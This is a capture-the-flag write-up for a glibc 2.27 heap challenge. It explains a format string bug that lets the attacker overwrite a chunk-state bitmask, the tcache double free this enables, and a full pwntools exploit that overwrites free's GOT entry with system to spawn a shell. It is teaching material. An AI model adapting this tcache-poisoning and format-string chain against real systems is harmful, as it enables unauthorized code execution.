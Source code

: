 We are given 3 files the binary, zip archive with libc and ld and bash script that runs the binary. 
First let's look at the binary in IDA:

<img src="image1.png" width=500 height=500>

Here is the code that simply reads a character and executes a command appropriate to it. But what of v4 variable used for ?
Lets look deep into the function allocate_chunk:

<img src="image2.png">

The function allocate_chunk first reads id,after that it checks if ID bit of v4 is 0 and if it is it reads size and content and sets the chunks[id] to malloc(size).
So v4 is used to check if chunk is freed or used. If the ID bit is set to 0 it is freed and if it's not it is allocated.
Now let's look at the list_chunks_content:

<img src="image3.png">

Function prints all the chunks content with printf passing the chunk address as the first argument and here we have a format string vulnerability. We don't have an arbitary write here because format string isn't on the stack, but address v4 is. So we can overwrite v4 to get double free.
The glibc2.27 is used in this task, in this version tcache was added. When multiple threads are using heap the heap manager locks the heap while one thread is using it to avoid errors.So to make the allocations faster peaple made a tcache. A tcache or per thread cache is a bin that is own for each of threads unlike the other bins, so when u are using a tcache heap manager doesn't need to lock a heap and allocations go faster. But there is no security checks in tcache. Since glibc2.27 tcache is used by default, You can read more about tcache here https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/implementation/tcache/.

Our strategy is pretty simple:
1. we leak the libc using format string vulnerabilitiy.
2. we create two chunks in second chunk is payload to overwrite the v4 with 0b111 (7).
3. free first chunk
4. overwrite the v4
5. free first chunk again
6. overwrite the v4 again
7. free first chunk again
8. allocate chunk with content p32(freegot) to overwrite the bk pointer to freeaddress in got table
9. allocate chunk with content "/bin/sh\x00"
10. allocate chunk with content p32(system)
11. free chunk with /bin/sh

The final exploit:
```python
from pwn import *
cmd = lambda x : p.sendlineafter('4) quit\n>', str(x))
answer = lambda x : p.sendlineafter(': ', str(x))
def allocate_chunk(id, size, content):
	cmd(1)
	answer(id)
	answer(size)
	answer(content)
	p.send('\n')

def delete_chunk(id):
	cmd(3)
	answer(id)
def list_chunks():
	cmd(2)
	return p.recvuntil('\n\n').split('\n')[:-2]
freegot = 0x804b43c
p = process('./df', env={'MALLOC_CHECK_':'0', 'LD_PRELOAD' : "/opt/glibc2.27x86/lib/libc.so.6 /opt/glibc2.27x86/lib/libpthread.so.0 /opt/glibc2.27x86/lib/ld-linux.so.2"})
#p = process('./df')
#p = remote('tasks.open.kksctf.ru', 10000)
libc = ELF('/opt/glibc2.27x86/lib/libc.so.6')
gdb.attach(p)
allocate_chunk(0, 128, '%13$p')
libc_base = int(list_chunks()[0][2:],16)-0x1dba5
system = libc_base+libc.symbols['system']
print 'LIBC leak:', hex(libc_base)
print 'system:', hex(system)
delete_chunk(0)
allocate_chunk(0, 128, 'a'*8)
allocate_chunk(1, 128, '%7c%6$hhn')
delete_chunk(0)
list_chunks()
delete_chunk(0)
list_chunks()
delete_chunk(0)
allocate_chunk(3, 128, p32(freegot))
allocate_chunk(5, 128, '/bin/sh\x00')
allocate_chunk(0, 128, p32(system))
delete_chunk(5)
p.interactive()```

